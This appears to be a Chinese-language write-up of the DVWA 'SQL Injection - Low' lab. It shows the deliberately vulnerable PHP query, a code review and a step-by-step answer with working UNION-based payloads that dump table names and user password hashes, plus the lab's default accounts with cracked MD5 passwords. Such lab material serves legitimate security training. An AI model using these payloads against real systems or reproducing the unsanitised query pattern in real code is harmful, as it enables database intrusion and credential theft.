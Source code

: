 # SQL Injection - Low

## View Source

```PHP
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

- [`mysqli_query()`](https://www.php.net/manual/zh/mysqli.query.php)
	- 對資料庫執行查詢
- [`mysqli_fetch_assoc()`](https://www.php.net/manual/zh/mysqli-result.fetch-assoc.php)
	- 將執行結果用 Associative array 回傳
- [`mysqli_error()`](https://www.php.net/manual/zh/mysqli.error.php)
	- 回傳錯誤資訊

## Code Review

- 預先定義好 *SQL* 語句來查詢使用者名稱，但透過動態生成來串接使用者輸入的 *id*
- 會將結果回傳給使用者看，不論成功失敗
- 使用 *GET*
	- E.g., `http://127.0.0.1/vulnerabilities/sqli/?id=1&Submit=Submit#`

## Answer

- 透過錯誤資訊來判斷注入語句如何串接
	- E.g., 輸入 `'`；噴出 `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1`
1. 原本的 *PHP* 語句
	- `$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";`
2. 雙引號裡面的 *SQL* 語句
	- `SELECT first_name, last_name FROM users WHERE user_id = '$id';`
3. 構造出操作資料庫時可以執行成功的語句
	- `SELECT first_name, last_name FROM users WHERE user_id = '' OR '1'='1'; `
4. 要注入的語句
	- `' OR '1'='1`

### Example

```
' OR '1'='1
' UNION SELECT table_name, table_rows FROM information_schema.tables #
' UNION SELECT table_name, column_name FROM information_schema.columns #
' UNION SELECT user, password FROM users #
```

### Note

- 因為資料庫是將密碼用 *md5* 儲存，且使用者密碼是常見弱密碼
- 可以參照以下網站轉成明文
	- [CMD5](https://www.cmd5.com/)
	- [CrackStation](https://crackstation.net/)

```
admin	5f4dcc3b5aa765d61d8327deb882cf99 (password)
gordonb	e99a18c428cb38d5f260853678922e03 (abc123)
1337	8d3533d75ae2c3966d7e0d4fcc69216b (charley)
pablo	0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)
smithy	5f4dcc3b5aa765d61d8327deb882cf99 (password)
```